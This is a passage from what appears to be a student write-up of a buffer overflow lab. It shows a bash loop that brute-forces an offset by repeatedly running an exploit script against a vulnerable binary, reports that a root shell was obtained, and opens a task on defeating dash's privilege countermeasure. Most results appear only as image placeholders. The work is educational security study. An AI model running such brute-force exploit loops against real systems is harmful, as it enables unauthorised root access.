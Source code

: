 ![](image-43.png)


```sh
#!/bin/bash

value=-200

while true; do 
  value=$(( $value + 10 ))
  ./exploit.py $value 
  ./stack-L4 
done
```

![](image-27.png)

We verify that the root shell is obtained using the brute force Buffer Overflow attack.

#### Tasks 7: Defeating dash’s Countermeasure

- Changing the Default Shell to `dash`

![](image-21.png)

**Experiment**

###### without `setuid(0)` system call

![](image-22.png)
